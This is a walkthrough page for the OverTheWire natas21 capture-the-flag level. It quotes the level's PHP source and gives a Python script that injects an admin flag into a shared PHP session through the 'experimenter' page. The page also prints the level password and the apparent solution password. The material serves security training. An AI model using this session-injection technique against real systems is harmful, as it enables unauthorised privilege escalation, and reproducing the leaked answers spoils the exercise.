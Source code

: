 ```yaml
---
title: natas 21 walkthrough
description: over the wire natas 21
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-21 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 21 walkthrough
    order: 30
---
```

# Description
> Username: natas21
> 
> URL:      http://natas21.natas.labs.overthewire.org

## Source Code
http://natas21.natas.labs.overthewire.org/index.php : 
```php
<?php

function print_credentials()
{ 
    if ($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas22\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}


session_start();
print_credentials();

```
http://natas21-experimenter.natas.labs.overthewire.org
```php
<?php

session_start();

// if update was submitted, store it
if (array_key_exists("submit", $_REQUEST)) {
    foreach ($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}

if (array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach ($validkeys as $key => $defval) {
    $val = $defval;
    if (array_key_exists($key, $_SESSION)) {
        $val = $_SESSION[$key];
    } else {
        $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: " . $_SESSION["bgcolor"] . "; text-align: " . $_SESSION["align"] . "; font-size: " . $_SESSION["fontsize"] . ";";
$example = "<div style='$style'>Hello world!</div>";
```

---
# Progress
## Observation
The experimenter page is definitely vulnerable. However, we need to find a way to make it use to crack the main page.
## Trial
If those two pages share session data. One can inject content into the session via the experimenter page, and using the session ID to retrieve the password from the main page.
## Script
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas21"
password = "89OWrTkGmiLZLv12JY4tLj2c4FW0xn56"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas21.natas.labs.overthewire.org/index.php"
    vul_url = "http://natas21-experimenter.natas.labs.overthewire.org/index.php"
    response = requests.get(vul_url, auth=authentication)
    sessid_cookie = response.cookies
    sessid_cookie = {"PHPSESSID":response.cookies["PHPSESSID"]}

    response = requests.get(vul_url + "?debug=true&admin=1&submit=Update", 
                             cookies=sessid_cookie, auth=authentication)
    if response.status_code == 200:
        if "admin" not in get_content(response):
            exit()
    
    response = requests.get(main_url, cookies=sessid_cookie, auth=authentication)
    if "You are an admin" in get_content(response):
        print(get_content(response))
    else:
        print("failed")

main()
```
91awVM9oDiUGm33JdzM7RVLBS8bz9n0s

---
# Hint

---
# Solving
## Category
- 
## Techniques
- 

## Tools
- 
